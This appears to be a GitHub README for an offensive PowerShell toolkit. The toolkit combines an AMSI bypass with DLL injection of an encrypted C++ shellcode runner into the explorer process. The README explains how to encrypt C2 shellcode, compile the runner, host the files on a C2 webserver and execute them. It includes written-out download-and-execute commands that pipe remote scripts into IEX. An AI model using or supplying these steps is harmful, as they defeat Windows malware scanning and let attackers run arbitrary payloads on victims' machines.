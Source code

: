 # Powershell-DLL-Injection
AMSI Bypass and DLL injection payload with Powershell with a C++ shellcode runner DLL

## Setup
### Powershell Scripts
The amsi.ps1 script is ready to go out of the box, using a known AMSI bypass for Powershell that corrupts the AmsiContext header. The inject.ps1 script will need the $hostingServer variable to be changed to whatever domain is hosting the compiled shellcode runner DLL so it can download it before injecting it.

### C++ Shellcode Runner
Generate some shellcode with a C2 framework or write some out. Once the shellcode is ready, paste it into crypter.c and compile it (I just used "gcc crypter.c" to compile it in WSL for this since it was faster than Visual Studio). Run the compiled crypter program in a terminal and copy the output to paste it into runner.cpp where it says "CRYPTED_SHELLCODE_HERE". Compile the completed runner.cpp code to a DLL with Visual Studio.

## Usage
Start a webserver on your C2 server to host amsi.ps1, inject.ps1, and the compiled runner.dll. The amsi bypass should be run first to disable AMSI, then run the DLL injection powershell script to load runner.dll into the explorer process. The commands to do so are as follows:

```
PS C:\> (new-object System.Net.WebClient).downloadstring('http://localhost/amsi.ps1')|IEX
PS C:\> (new-object System.Net.WebClient).downloadstring('http://localhost/inject.ps1')|IEX
```
